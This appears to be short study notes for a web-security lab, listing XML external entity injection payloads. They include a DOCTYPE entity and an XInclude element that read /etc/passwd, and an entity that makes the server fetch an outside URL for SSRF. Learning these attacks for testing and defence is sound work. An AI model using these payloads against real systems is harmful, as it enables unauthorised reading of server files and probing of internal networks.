 ### XML external entity example
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

### Injected - parameter &xxe; and read passwd file (could also be placed in another element)
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> 
<stockCheck><productId>&xxe;</productId></stockCheck>
```

### Another variant (if you can not control the complete XML)
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### Another example - perform SSRF
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://example.com.com/some/path"> ]>
```

